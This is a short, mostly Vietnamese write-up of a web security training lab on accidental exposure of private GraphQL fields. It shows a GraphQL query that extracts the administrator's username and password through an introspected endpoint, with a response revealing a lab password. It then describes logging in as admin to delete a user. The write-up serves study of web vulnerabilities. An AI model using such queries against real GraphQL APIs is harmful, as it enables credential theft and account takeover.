





# WRiteup LAB Accidental exposure of private GraphQL fields

## Goal
To solve the lab, sign in as the administrator and delete the username carlos
## Khai thác
Trang chủ

Lịch sử HTTP Burp thấy được endpoint `/graphql/v1` như bài thực hành trước ở enpoint này xảy ra lỗ hổng có thể truy vấn nội suy làm rò rỉ lược đồ ứng dụng web <br>
Tôi sẽ không đi sâu nữa mà vào quá trình khai thác như bài thực hành cũ và rõ rỉ được 


Trường username và password thực hiện tải trọng để truy xuất dữ liệu như sau: <br>
```json
query getBlogSummaries {
    getUser(id: 1) {
        username
        password
    }
}
```
Response:
```json
{
  "data": {
    "getUser": {
      "username": "administrator",
      "password": "3wzztgmpkmoez5c9gbhp"
    }
  }
}
```
Thực hiện đăng nhập vào quản trị và xóa user carlos
